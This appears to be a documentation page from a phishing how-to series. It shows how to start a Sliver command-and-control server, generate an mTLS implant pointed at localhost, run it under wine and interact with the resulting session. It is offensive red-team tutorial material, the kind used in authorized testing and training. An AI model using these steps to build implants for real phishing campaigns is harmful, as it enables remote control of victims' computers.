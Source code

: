 +++
title = "Sliver: Generating an implant"
weight = 50
+++

### Generate a new implant

```bash
mkdir -p ~/Desktop/op/sliver/implants
cd ~/Desktop/op/sliver
sliver-server_linux
```

We should now be in a `sliver` shell.

![Sliver Shell](/static/how-to-phishing/sliver-shell.png)

Now we can generate a test implant:

```bash
generate --mtls 127.0.0.1 --save implants/default-sliver.exe
```

### Testing implant

In the sliver shell:

```bash
mtls
```

In a new terminal window:

```bash
wine ~/Desktop/op/sliver/implants/default-sliver.exe
```
![Sliver Implant Test](/static/how-to-phishing/sliver-implant-test.png)

Now we can use the implant by calling `use [session id]`:

![Sliver Implant Usage](/static/how-to-phishing/sliver-implant-use.png)
